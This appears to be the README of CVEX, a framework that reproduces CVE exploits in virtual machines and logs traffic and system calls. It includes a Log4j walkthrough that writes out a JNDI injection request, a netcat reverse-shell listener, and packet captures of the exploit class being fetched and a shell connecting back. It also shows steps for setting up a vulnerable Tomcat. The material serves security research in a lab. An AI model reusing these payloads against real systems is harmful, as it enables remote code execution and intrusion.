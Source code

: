 # CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Install

CVEX has been tested on Ubuntu 24.04, 22.04, and 20.04.

Create virtual environment (optional):
```
python3 -m venv venv
source venv/bin/activate
```

Install CVEX:
```
~/CVEX$ sudo apt update
~/CVEX$ pip install -e .
```

Install Vagrant:
```
wget https://releases.hashicorp.com/vagrant/2.4.1/vagrant-2.4.1-1.x86_64.rpm
sudo apt install alien
sudo alien -i vagrant-2.4.1-1.x86_64.rpm
```

Install Ansible:
```
sudo apt-add-repository ppa:ansible/ansible
sudo apt update
sudo apt install ansible
```

Install VirtualBox (**Ubuntu 22.04**):
```
wget https://download.virtualbox.org/virtualbox/7.0.20/virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
sudo dpkg -i virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
wget https://download.virtualbox.org/virtualbox/7.0.20/Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
sudo vboxmanage extpack install Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
```
Refer to the VirtualBox [download](https://www.oracle.com/virtualization/technologies/vm/downloads/virtualbox-downloads.html) page to find the appropriate package of VirtualBox that suits your OS. If dpkg shows errors during installation, run this command to fix them:
```
sudo apt --fix-broken install
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Execute CVE by providing the CVEX record folder to the `cvex` command:
```
~/CVEX$ cvex records/CVE-0000-00001
```

CVEX comes with a set of PoCs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu
- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows
- [CVE-2020-1938](records/CVE-2020-1938): Apache Tomcat AJP Arbitrary File Read/Include Vulnerability
- [CVE-2021-44228](records/CVE-2021-44228): Log4j vulnerability with backconnect to remote shell

<details>
<summary>CVE-2021-44228 logs analysis</summary>

[records/CVE-2021-44228/cvex.yml](records/CVE-2021-44228/cvex.yml) describes the VM infrastructure for this CVE:

```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  trace: "curl|python3|nc|java"
  command:
    - "python3 /opt/log4j-shell-poc/poc.py --userip %ubuntu2% --webport 9999 --lport 1234&~~~Listening on 0.0.0.0:1389"
    - "nc -nvlp 1234&~~~Listening on 0.0.0.0 1234"
    # Web server may not reply, which will cause curl to hang
    - "curl -d 'uname=%24%7Bjndi%3Aldap%3A%2F%2F%ubuntu2%%3A1389%2Fa%7D&password=' http://ubuntu1:8080/login&"
    - "sleep 10"
```

Ansible playbook `ubuntu1.yml` installs an Apache Tomcat based web application, vulnerable to the Log4j attack. Ansible playbook `ubuntu2.yml` installs a fake LDAP server and a web server that is hosting the payload.

Since the execution process has been already described in the section `Execution of CVE-0000-00000`, let's focus on analysis of logs produced by CVEX. In our logs the IP address of `ubuntu1` is `192.168.56.3`, the IP address of `ubuntu2` is `192.168.56.4`.

To inspect the PCAP file, run tcpdump:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

The attacker `192.168.56.4` (`ubuntu2`) issues an HTTP POST request to Apache Tomcat running on `192.168.56.3` (`ubuntu1`). The POST request contains malicious data `${jndi:ldap://192.168.56.4:1389/a}` in the `uname` field. The data is URL-encoded:
```
15:34:03.050477 IP 192.168.56.4.36880 > 192.168.56.3.8080: tcp 219
E....t@.@.....8...8.....:.u................
.....$C.POST /login HTTP/1.1
Host: ubuntu1:8080
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 68
Content-Type: application/x-www-form-urlencoded

uname=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.4%3A1389%2Fa%7D&password=
```

Log4j logs the `${jndi:ldap://192.168.56.4:1389/a}` string. This triggers the JNDI manager to make a request to the LDAP server controlled by the attacker (`192.168.56.4:1389`). The LDAP server replies with a link to the payload:
```
15:34:04.187067 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.@.d...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.187088 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.?.e...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.191353 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 14
E..B..@.@.em..8...8..m.V.:..Z3.I...........
.....$G.0....e.
......
```

JNDI manager requests the payload hosted on `http://192.168.56.4:9999/Exploit.class`:
```
15:34:04.229544 IP 192.168.56.3.41350 > 192.168.56.4.9999: tcp 213
E..	@.@.>.	...8...8...'...._96.............
.$Ha...8GET /Exploit.class HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_102
Host: 192.168.56.4:9999
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Web server `192.168.56.4:9999` replies with the payload:
```
15:34:04.385348 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 198
E.....@.?..#..8...8.'...96.....4...........
.....$HaHTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12
Date: Wed, 09 Oct 2024 13:33:51 GMT
Content-type: application/java-vm
Content-Length: 1361
Last-Modified: Wed, 09 Oct 2024 13:33:48 GMT

15:34:04.408072 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 1361
E.....@.@.|...8...8.'...96.c...4...........
.....$I........4.f
...-...../..0..1
...2
...3
...4..5
.	.6
.7.8
.7.9
.	.8
.7.:
.	.:
.	.;
.<.=
.<.>
.?.@
.?.A........2
.B.C
.7.D..E
.7.F
.	.G..H..I...<init>...()V...Code...LineNumberTable...StackMapTable..H..1..J..5..K..L..E..
Exceptions..
SourceFile...Exploit.java........192.168.56.4.../bin/sh...java/lang/ProcessBuilder...java/lang/String....M..N.O..P.Q...java/net/Socket....R..J..S.T..U.T..V.W..X.Y..K..Z.[..\.[..L..].^.._....`..a.b..c.[...java/lang/Exception..d....e.....Exploit...java/lang/Object...java/lang/Process...java/io/InputStream...java/io/OutputStream...([Ljava/lang/String;)V...redirectErrorStream...(Z)Ljava/lang/ProcessBuilder;...start...()Ljava/lang/Process;...(Ljava/lang/String;I)V...getInputStream...()Ljava/io/InputStream;...getErrorStream...getOutputStream...()Ljava/io/OutputStream;...isClosed...()Z..	available...()I...read...write...(I)V...flush...java/lang/Thread...sleep...(J)V..	exitValue...destroy...close.!................... ............*.....L...=..N...Y....Y.-S..........:...	Y+...
:......:......:......:......:	.....:
.......`.........
....................
....................	............
....	..............W...:............................!...n.....	...
.............&...1...8...?...F...T...\...d...q...y.................................!..."...$...%...&."...1....T....#..$...$..%..&..'..'..'..(..(......X..)..*...........+.....,
```

The payload connects back to netcat (`nc -nvlp 1234` from cvex.yml), executed by the attacker:
```
15:34:04.462260 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.?..Y..8...8..,...g........../A.........
.$IN........
15:34:04.462345 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.>..Y..8...8..,...g........../A.........
.$IN........
15:34:04.464332 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.@.Id..8...8....,.Z...g......"..........
...3.$IN....
15:34:04.464348 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.?.Jd..8...8....,.Z...g......"..........
...3.$IN....
```

</details>

## Debug

1. Re-start CVEX.
2. Restart CVEX with the `-v` parameter (verbose logging).
3. Connect to the VM via SSH with the help of `vagrant ssh` command.
<details>
<summary>How to use "vagrant ssh"</summary>

```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2021-44228/ubuntu1
==> default: Restoring the snapshot 'CVE-2021-44228/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 10 06:33:32 AM UTC 2024

  System load:  1.0625             Users logged in:          0
  Usage of /:   15.2% of 30.34GB   IPv4 address for docker0: 172.17.0.1
  Memory usage: 22%                IPv4 address for eth0:    10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1:    192.168.56.4
  Processes:    155


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct  9 13:29:41 2024 from 10.0.2.2

vagrant@ubuntu:~$ 
```

</details>

Use VirtualBox GUI to manage VMs and snapshots.

## Create your own

<details>

<summary>Expand to see how to create your own CVEX record</summary>

Choose the right name for your CVEX record and create a new subfolder with this name in the [records](records) folder. Let's imagine that our goal is to reproduce CVE-2020-1938 (Apache Tomcat AJP Arbitrary File Read/Include Vulnerability). Obvious choice for the folder name would be `CVE-2020-1938`.

Let's use the [ubuntu2204-ubuntu2204](blueprints/ubuntu2204-ubuntu2204) blueprint. Create the simplest `records/CVE-2020-1938/cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
```

Run CVEX:
```
~/CVEX$ cvex records/CVE-2020-1938
```

CVEX will create the router VM and two Ubuntu 22.04 VMs:
```
2024-10-23 14:02:12,627 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-10-23 14:02:13,733 - INFO - [router] Starting the VM router...
2024-10-23 14:04:09,541 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
2024-10-23 14:04:24,545 - INFO - [router] Retrieving SSH configuration of router...
2024-10-23 14:04:24,545 - INFO - [router] Inventory /home/john/.cvex/router/inventory.ini has been created
2024-10-23 14:04:24,545 - INFO - [router] Executing Ansible playbook /ll/sources/CVEX/ansible/router.yml...
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] PLAY [Router] ******************************************************************
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-10-23 14:04:29,337 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter could change the meaning of that path. See
2024-10-23 14:04:29,337 - INFO - [router] https://docs.ansible.com/ansible-
2024-10-23 14:04:29,337 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:04:29,370 - INFO - [router] ok: [router]
2024-10-23 14:04:29,371 - INFO - [router] 
2024-10-23 14:04:29,371 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-10-23 14:04:50,650 - INFO - [router] changed: [router]
2024-10-23 14:04:50,650 - INFO - [router] 
2024-10-23 14:04:50,650 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-10-23 14:04:51,642 - INFO - [router] changed: [router]
2024-10-23 14:04:51,643 - INFO - [router] 
2024-10-23 14:04:51,643 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-10-23 14:04:56,908 - INFO - [router] ok: [router]
2024-10-23 14:04:56,908 - INFO - [router] 
2024-10-23 14:04:56,908 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-10-23 14:04:57,573 - INFO - [router] changed: [router]
2024-10-23 14:04:57,573 - INFO - [router] 
2024-10-23 14:04:57,574 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-10-23 14:04:59,498 - INFO - [router] changed: [router]
2024-10-23 14:04:59,498 - INFO - [router] 
2024-10-23 14:04:59,498 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-10-23 14:05:01,188 - INFO - [router] changed: [router]
2024-10-23 14:05:01,188 - INFO - [router] 
2024-10-23 14:05:01,189 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-10-23 14:05:01,826 - INFO - [router] changed: [router]
2024-10-23 14:05:01,826 - INFO - [router] 
2024-10-23 14:05:01,826 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-10-23 14:05:02,430 - INFO - [router] changed: [router]
2024-10-23 14:05:02,431 - INFO - [router] 
2024-10-23 14:05:02,431 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-10-23 14:05:03,198 - INFO - [router] changed: [router]
2024-10-23 14:05:03,198 - INFO - [router] 
2024-10-23 14:05:03,198 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-10-23 14:05:03,933 - INFO - [router] changed: [router]
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:03,933 - INFO - [router] PLAY RECAP *********************************************************************
2024-10-23 14:05:03,933 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:04,072 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
2024-10-23 14:05:14,799 - INFO - [ubuntu1] Initializing a new VM ubuntu1 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-10-23 14:05:17,209 - INFO - [ubuntu1] Starting the VM ubuntu1...
2024-10-23 14:07:26,896 - INFO - [ubuntu1] Creating snapshot 'clean' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:40,427 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 14:07:44,182 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 14:07:44,182 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 14:07:44,182 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:07:44,201 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 14:07:44,201 - INFO - [ubuntu1] 
2024-10-23 14:07:44,201 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:07:45,707 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:45,707 - INFO - [ubuntu1] 
2024-10-23 14:07:45,707 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:07:50,772 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:50,772 - INFO - [ubuntu1] 
2024-10-23 14:07:50,772 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 14:07:50,773 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:07:50,773 - INFO - [ubuntu1] 
2024-10-23 14:07:50,905 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:59,288 - INFO - [ubuntu2] Initializing a new VM ubuntu2 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2...
2024-10-23 14:08:00,935 - INFO - [ubuntu2] Starting the VM ubuntu2...
2024-10-23 14:09:55,140 - INFO - [ubuntu2] Creating snapshot 'clean' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:10:09,813 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 14:10:09,814 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 14:10:12,545 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 14:10:12,545 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 14:10:12,545 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:10:12,566 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 14:10:12,566 - INFO - [ubuntu2] 
2024-10-23 14:10:12,567 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:10:14,807 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:14,807 - INFO - [ubuntu2] 
2024-10-23 14:10:14,807 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:10:19,573 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:19,573 - INFO - [ubuntu2] 
2024-10-23 14:10:19,573 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 14:10:19,574 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:10:19,574 - INFO - [ubuntu2] 
2024-10-23 14:10:19,717 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:28,249 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 14:10:30,157 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:30,223 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:30,243 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:30,259 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:30,274 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:30,309 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:30,393 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 14:10:32,602 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:32,686 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:32,797 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 14:10:34,691 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:34,768 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:34,794 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:34,821 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:34,844 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:34,890 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:34,980 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 14:10:37,394 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:37,470 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:37,573 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 14:10:37,627 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 14:10:37,643 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:37,669 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 14:10:39,056 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:39,111 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:39,132 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:39,156 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:39,175 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:39,213 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:39,294 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 14:10:41,243 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:41,320 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:41,437 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 14:10:41,481 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 14:10:41,491 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:41,530 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 14:10:41,569 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 14:10:41,644 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 14:10:41,704 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 14:10:41,765 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 14:10:41,852 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 14:10:41,888 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 14:10:42,179 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 14:10:45,230 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 14:10:50,230 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 14:10:50,249 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 14:10:50,259 - INFO - [router] Stopping VM router...
2024-10-23 14:11:04,799 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 14:11:19,848 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

You will also see them in the VirtualBox GUI:
![CVEX VMs](img/ubuntu2204-ubuntu2204.png)

Whenever you need to experiment with the VMs, restore snapshots with `vagrant snapshot restore`:
```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2020-1938/ubuntu1
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2200
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/

~/.cvex/bento_ubuntu-22.04/202404.23.0/2$ vagrant snapshot restore CVE-2020-1938/ubuntu2
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu2'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
```

To perform administrative tasks, connect to the needed VM over SSH with `vagrant ssh`:
```
~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Wed Oct 23 12:20:56 PM UTC 2024

  System load:  0.14208984375      Processes:             142
  Usage of /:   12.0% of 30.34GB   Users logged in:       0
  Memory usage: 11%                IPv4 address for eth0: 10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1: 192.168.56.3


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct 23 12:07:40 2024 from 10.0.2.2

vagrant@ubuntu1:~$
```

The first step would be to install the vulnerable Apache Tomcat 9.0.30 on `ubuntu1`. You need to find the binaries and build the Ansible playbook `ubuntu1.yml` that installs this service. Create the following structure of the CVEX record folder:
```
$/CVEX$ tree records/CVE-2020-1938

records/CVE-2020-1938
├── cvex.yml
├── data
│   └── apache-tomcat-9.0.30.tar.gz
└── ubuntu1.yml
```

Now run the Ansible playbook on `ubuntu1` to see if it works:
```
$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini records/CVE-2020-1938/ubuntu1.yml 

PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***************************************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu1 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu1]

TASK [Update apt cache] ***********************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Install dependencies (Java and utilities)] **********************************************************************************************************************************************************
ok: [ubuntu1] => (item=curl)
ok: [ubuntu1] => (item=wget)
ok: [ubuntu1] => (item=tar)
changed: [ubuntu1] => (item=openjdk-11-jre-headless)

TASK [Create tomcat group] ********************************************************************************************************************************************************************************
changed: [ubuntu1]

